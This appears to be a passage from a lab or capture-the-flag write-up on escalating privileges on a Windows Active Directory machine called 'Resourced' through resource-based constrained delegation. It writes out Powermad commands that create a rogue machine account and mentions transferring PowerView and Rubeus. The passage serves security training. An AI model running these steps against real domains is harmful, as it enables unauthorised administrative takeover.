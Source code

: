 ![b6a88243609a5d70313a1f62e8a78ffb.png](/assets/img/screenshots/Resourced/b6a88243609a5d70313a1f62e8a78ffb.png)

# Privilege escalation

## Resource-based-constrained-delegation attack

I'll use Hactricks guide to get administative privileges. https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation

First of all I move Powerview, Powermad and rubeus.exe from my attacker machine to  the EvilWinRM session.

![2aecf55d5bc96bf52978de3fb0148a6d.png](/assets/img/screenshots/Resourced/2aecf55d5bc96bf52978de3fb0148a6d.png)

`Import-Module .\Powermad.ps1`

`New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose`
